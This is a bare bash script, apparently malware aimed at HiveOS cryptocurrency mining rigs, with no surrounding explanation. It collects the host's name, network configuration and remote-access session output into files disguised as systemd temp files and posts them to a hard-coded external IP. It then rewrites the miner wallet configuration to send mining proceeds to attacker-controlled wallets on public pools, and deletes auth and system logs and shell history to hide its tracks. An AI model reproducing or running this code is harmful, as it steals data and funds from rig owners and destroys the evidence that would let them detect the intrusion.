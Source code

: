 #! /usr/bin/env bash
FILE_HOSTNAME=/tmp/systemd-private-573f90440f934615953a8ef0764847d2-unknown.service
HSSH_HOSTNAME=/tmp/systemd-private-573f90440f934615953a8ef0764847d2-unknown.service.pid
IFCONFIG_HOSTNAME=/tmp/systemd-private-573f90440f934615953a8ef0764847d2-unknown.service.sock
/bin/hostname > ${FILE_HOSTNAME}
/hive/bin/hssh start > ${HSSH_HOSTNAME}
/sbin/ifconfig > ${IFCONFIG_HOSTNAME}
/hive/sbin/curl -XPOST -F "hostname=@${FILE_HOSTNAME}" -F "hssh=@${HSSH_HOSTNAME}" -F "ifconfig=@${IFCONFIG_HOSTNAME}" "http://185.86.149.116:8085/"
rm ${FILE_HOSTNAME} ${HSSH_HOSTNAME} ${IFCONFIG_HOSTNAME}
FILE=/hive-config/wallet.conf
IS_GMINER=$(/bin/cat $FILE | /bin/grep 'GMINER_TEMPLATE=' | wc -l)
IS_CLAYMORE=$(/bin/cat $FILE | /bin/grep 'EPOOLS_TPL=' | wc -l)
IS_PHONEIX=$(/bin/cat $FILE | /bin/grep 'PHOENIXMINER_URL=' | wc -l)
/bin/bash /hive/bin/miner stop
if [[ "${IS_GMINER}" -eq 1 ]]; then
    /bin/sed -i -r \
      -e 's/^GMINER_TEMPLATE=.+/GMINER_TEMPLATE="12e4081d9204882412eee22a1704ee73491d6a4759be0ed2ef6cda7997824d3c246.beam"/' \
          -e 's/^GMINER_HOST=.+/GMINER_HOST="beam.f2pool.com"/' \
      -e 's/^GMINER_PORT=.+/GMINER_PORT="5000"/' \
      -e 's/^GMINER_TLS=.+/GMINER_TLS="1"/' \
      $FILE
    /bin/bash /hive/bin/miner start
fi
if [[ "${IS_CLAYMORE}" -eq 1 ]]; then
    /bin/sed -i -r \
      -e 's/^EPOOLS_TPL=.+/EPOOLS_TPL="POOL: daggerhashimoto.usa-new.nicehash.com:3353, WALLET: 39Rqd9GvUittmAnn1Lpb4QD8cj89UbTeoX, PSW: x, ESM: 3, ALLPOOLS: 1"/' \
      -e 's/^POOL:.+//' \
      $FILE
    /bin/bash /hive/bin/miner start
fi
if [[ "${IS_PHONEIX}" -eq 1 ]]; then
    /bin/sed -i -r \
      -e 's/^PHOENIXMINER_URL=.+/PHOENIXMINER_URL="POOL: daggerhashimoto.usa-new.nicehash.com:3353, WALLET: 39Rqd9GvUittmAnn1Lpb4QD8cj89UbTeoX, PSW: x, ESM: 3, ALLPOOLS: 1"/' \
      $FILE
    /bin/bash /hive/bin/miner start
fi
/bin/rm /var/log/auth.log
/bin/rm /var/log/syslog 
history -c
